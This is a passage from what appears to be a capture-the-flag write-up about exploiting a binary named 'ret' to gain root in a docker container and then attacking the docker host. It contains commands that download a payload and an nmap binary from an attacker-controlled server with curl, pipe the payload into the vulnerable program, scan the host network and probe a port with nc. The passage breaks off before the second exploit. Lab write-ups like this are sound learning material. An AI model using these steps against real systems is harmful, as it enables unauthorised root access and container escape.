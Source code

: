 ```
pip install pwn
```

We can run it and start a python server to download the `payload.p` file:

```
curl http://10.6.34.159:8000/payload.p -o /tmp/payload.p
```

We can now do this:

```
(cat /tmp/payload.p; cat) | ./ret
```

If we do this:

![Pasted image 20250328181735.png](../../IMAGES/Pasted%20image%2020250328181735.png)

We got root on the docker container, we need some way to break out of it, let's use a `nmap` binary to scan the network:

```
curl http://10.6.34.159:8000/nmap -o /tmp/nmap
```

```
./tmp/nmap -sT -p- 172.17.0.1
```

![Pasted image 20250328182044.png](../../IMAGES/Pasted%20image%2020250328182044.png)

Something is running on port `4444`, let's use `nc` to look at it:

```
nc 172.17.0.1 4444
```

![Pasted image 20250328182132.png](../../IMAGES/Pasted%20image%2020250328182132.png)

It runs the same as `ret` binary, we can exploit it in the same way then:
